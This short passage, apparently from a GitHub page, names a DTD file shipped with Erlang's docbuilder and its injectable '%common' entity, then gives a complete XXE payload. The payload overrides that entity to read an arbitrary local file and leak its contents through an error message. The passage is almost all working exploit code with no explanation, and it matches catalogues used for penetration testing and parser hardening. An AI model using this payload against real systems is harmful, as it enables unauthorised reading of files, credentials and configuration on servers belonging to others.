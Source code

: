 ```
<message></message>
```

 --- 

**DTD File:** `/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd`

**Injectable entity:** `%common`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd">

    <!ENTITY % block "xxx" >

    <!ENTITY % common '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```
